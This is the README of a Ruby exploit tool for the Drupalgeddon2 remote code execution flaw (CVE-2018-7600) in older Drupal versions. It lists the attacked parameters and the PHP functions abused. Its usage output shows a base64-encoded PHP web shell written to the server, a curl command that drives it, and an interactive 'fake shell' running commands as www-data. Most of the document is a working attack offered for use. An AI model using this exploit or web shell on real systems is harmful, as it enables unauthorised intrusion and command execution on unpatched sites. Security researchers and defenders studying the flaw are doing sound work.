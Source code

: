 # CVE-2018-7600 | Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 - https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

- [Hans Topo](https://github.com/dreadlocked)
- [g0tmi1k](https://blog.g0tmi1k.com/)

Supports:
- < 7.58 ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function.
- < 8.3.9 / < 8.4.6 / < 8.5.1 ~ `user/register` URL, attacking `account/mail` AJAX & `#post_render` parameter, using PHP's `exec` function.

This method was chosen, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ {[More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708)}.

- - -

#### Usage:

```bash
$ ruby drupalgeddon2.rb http://localhost/drupal/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal/
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbImMiXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsiYyJdIC4gIiAyPiYxIiApOyB9 | base64 -d | tee s.php
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal/CHANGELOG.txt (404)
[+] Found  : http://localhost/drupal/core/CHANGELOG.txt (200)
[+] Drupal!: 8.4.5
--------------------------------------------------------------------------------
[*] PHP cmd: exec
--------------------------------------------------------------------------------
[+] Target seems to be exploitable! w00hooOO!
[+] Result: <?php if( isset( $_REQUEST["c"] ) ) { system( $_REQUEST["c"] . " 2>&1" ); }<span class="ajax-new-content"></span>
--------------------------------------------------------------------------------
[*]   curl 'http://localhost/drupal/s.php' -d 'c=whoami'
--------------------------------------------------------------------------------
[*] Fake shell:
drupalgeddon2> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
drupalgeddon2>
drupalgeddon2> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
drupalgeddon2>
```

For proxy support, edit the file, replacing with your values. Example:

```ruby
proxy_addr = '192.168.0.130'
proxy_port = 8080
```

- - -

#### Drupal Information:

Drupal Advisory ~ https://www.drupal.org/sa-core-2018-002

Vulnerable Versions:

* < 7.58        **(Tested)**
* 8.x < 8.3.9
* 8.4.x < 8.4.6 **(Tested)**
* 8.5.x < 8.5.1 **(Tested)**

- - -

#### Links:

- **Write up & Research** ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- Drupal Advisory ~ https://www.drupal.org/sa-core-2018-002
- Original Python PoC ~ https://github.com/a2u/CVE-2018-7600
- cURL commands ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
- CVE ~ https://nvd.nist.gov/vuln/detail/CVE-2018-7600
